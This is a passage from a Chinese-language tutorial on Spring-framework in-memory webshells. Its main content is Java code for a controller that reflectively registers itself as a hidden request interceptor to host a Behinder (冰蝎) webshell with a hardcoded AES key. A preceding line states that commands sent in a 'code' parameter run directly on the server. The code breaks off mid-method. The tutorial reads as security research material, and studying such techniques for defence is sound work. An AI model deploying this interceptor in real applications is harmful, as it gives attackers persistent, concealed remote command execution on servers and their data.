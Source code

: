 ![image.png](Spring 框架内存马入门.assets/2023_05_19_10_30_53_VnPKYTR7.png)

最后在如下所示code参数添加命令，则可以直接执行命令

![image.png](Spring 框架内存马入门.assets/2023_05_19_10_30_54_M9jwq4fx.png)



#### 0x2 注入冰蝎马
原理同controller注入冰蝎马
```java
package com.spring.Controller;

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.handler.HandlerInterceptorAdapter;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.http.HttpSession;
import java.util.HashMap;
import java.util.Map;

@Controller
public class Test extends HandlerInterceptorAdapter {
    private final String k = "e45e329feb5d925b";
    @RequestMapping(value = "/a")
    public String test() throws NoSuchFieldException, IllegalAccessException {
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        org.springframework.web.servlet.handler.AbstractHandlerMapping abstractHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        java.lang.reflect.Field field = org.springframework.web.servlet.handler.AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
        field.setAccessible(true);
        java.util.ArrayList<Object> adaptedInterceptors = (java.util.ArrayList<Object>)field.get(abstractHandlerMapping);
        System.out.println(adaptedInterceptors);
        System.out.println(adaptedInterceptors.get(0).getClass().toString());
        for(Object object : adaptedInterceptors){
            if(object instanceof Test){
                System.out.println("已经添加过Test实例了");
                return "hello";
            }
        }
        Test test = new Test();
        adaptedInterceptors.add(test);
        return "hello";
    }
    public Test(){}
    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception{
        String code = request.getParameter("code");
        // 不干扰正常业务逻辑
        if (code != null) {
            behinder();
            return true;
```